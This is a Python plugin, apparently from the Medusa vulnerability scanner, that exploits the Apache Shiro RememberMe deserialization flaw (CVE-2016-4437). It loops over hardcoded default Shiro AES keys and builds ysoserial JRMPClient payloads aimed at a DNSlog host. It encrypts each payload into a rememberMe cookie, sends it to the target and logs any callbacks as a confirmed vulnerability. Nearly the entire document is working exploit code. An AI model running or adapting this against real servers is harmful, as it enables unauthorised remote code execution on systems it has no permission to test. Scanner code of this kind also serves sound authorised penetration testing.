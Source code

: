 ```python
    ExpClass = "JRMPClient"
    CipherKey = ["kPH+bIxk5D2deZiIxcaaaA==", "2AvVhdsgUs0FSA3SDFAdag==", "3AvVhmFLUs0KTA3Kprsdag==",
                 "4AvVhmFLUs0KTA3Kprsdag==", "5AvVhmFLUs0KTA3Kprsdag==",
                 "5aaC5qKm5oqA5pyvAAAAAA==", "6ZmI6I2j5Y+R5aSn5ZOlAA==", "bWljcm9zAAAAAAAAAAAAAA==",
                 "wGiHplamyXlVB11UXWol8g=="
                 ]
    BLOCK_SIZE = AES.block_size
    PAD_FUNC = lambda s: s + ((BLOCK_SIZE - len(s) % BLOCK_SIZE) * chr(BLOCK_SIZE - len(s) % BLOCK_SIZE)).encode()
    AES_MODE = AES.MODE_CBC
    AES_IV = uuid.uuid4().bytes
    payload_url = scheme + "://" + url + ":" + str(port)
    YsoserialPath=GetToolFilePath().Result()+"ysoserial.jar"
    Pool=ThreadPool()
    try:

        for key in CipherKey:
            DL = Dnslog()
            popen = subprocess.Popen(["java", "-jar", YsoserialPath, ExpClass, DL.dns_host()], stdout=subprocess.PIPE)
            file_body = PAD_FUNC((popen).stdout.read())
            Pool.Append(task,url=url,file_body=file_body,key=key,AES_MODE=AES_MODE,AES_IV=AES_IV,payload_url=payload_url,DL=DL,proxies=proxies,Uid=kwargs.get("Uid"),Sid=kwargs.get("Sid"))
        Pool.Start(10)#启动线程池
    except Exception as e:
        _ = VulnerabilityInfo('').info.get('algroup')
        ErrorLog().Write("Plugin Name:"+_+" ThreadPool ",e)  # 调用写入类传入URL和错误插件名

def task(**kwargs):
    DL=kwargs.get("DL")
    payload_url=kwargs.get("payload_url")
    key=kwargs.get("key")
    url=kwargs.get("url")
    try:
        encryptor = AES.new(base64.b64decode(key), kwargs.get("AES_MODE"), kwargs.get("AES_IV"))
        base64_ciphertext = base64.b64encode(kwargs.get("AES_IV") + encryptor.encrypt(kwargs.get("file_body")))
        cookies = {"jeesite.session.id": "3f8a61ec-27e2-425c-9724-f96ba0c1e512",
                   "rememberMe": base64_ciphertext.decode()}
        requests.get(payload_url, cookies=cookies,  proxies=kwargs.get("proxies"), timeout=6, verify=False)
        time.sleep(5)
        if DL.result():
            Medusa = "{} 存在ShiroRememberMe反序列化命令执行漏洞(CVE-2016-4437)\r\n验证数据:\r\n漏洞位置:{}\r\n秘钥:{}\r\nHeaders请求头:{}\r\nDNSLOG请求值:{}\r\nDNSLOG数据:{}\r\n".format(
                url, payload_url, key, cookies, DL.dns_host(), DL.dns_text())
            _t = VulnerabilityInfo(Medusa)
            VulnerabilityDetails(_t.info, url, Uid=kwargs.get("Uid"),Sid=kwargs.get("Sid")).Write()  # 传入url和扫描到的数据
            WriteFile().result(str(url), str(Medusa))  # 写入文件，url为目标文件名统一传入，Medusa为结果
    except Exception as e:
        _ = VulnerabilityInfo('').info.get('algroup')
        ErrorHandling().Outlier(e, _)
        ErrorLog().Write("Plugin Name:" + _ + " || Target Url:" + url, e)  # 调用写入类传入URL和错误插件名
```
